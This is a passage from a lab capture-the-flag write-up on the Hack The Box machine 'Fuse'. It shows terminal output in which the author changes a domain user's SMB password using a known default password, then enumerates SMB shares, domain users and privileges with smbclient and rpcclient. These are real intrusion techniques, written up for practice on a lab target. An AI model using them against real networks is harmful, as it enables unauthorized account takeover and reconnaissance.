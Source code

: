 
```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbpasswd -r 10.10.10.193 -U bnielson                                                         
Old SMB password: Fabricorp01
New SMB password: $Up3rC0mp13xP@$$w0rd
Retype new SMB password: $Up3rC0mp13xP@$$w0rd
Password changed for user bnielson
```

After choosing a more complex password, I was able to change it successfully.


> If you change a user's password, and find that after a minute or so that your password isn't working, this is intended by the machine creator.  Especially on the free servers there may be a lot of people trying to exploit the machine at the same time, so this saves the trouble of a million machine resets. \(But it is still annoying if you don't know what's going on!\)


```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbclient -U "bnielson" -L \\\\10.10.10.193\\ 
Enter WORKGROUP\bnielson's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        HP-MFT01        Printer   HP-MFT01
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

Next I used my new password for `bnielson` to enumerate open SMB shares. Besides the standard default shares, there were also a `HP-MFT01` and a `$print` share.

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ rpcclient -U bnielson 10.10.10.193   
Enter WORKGROUP\bnielson's password: 

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]

rpcclient $> enumprivs 0x451
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
```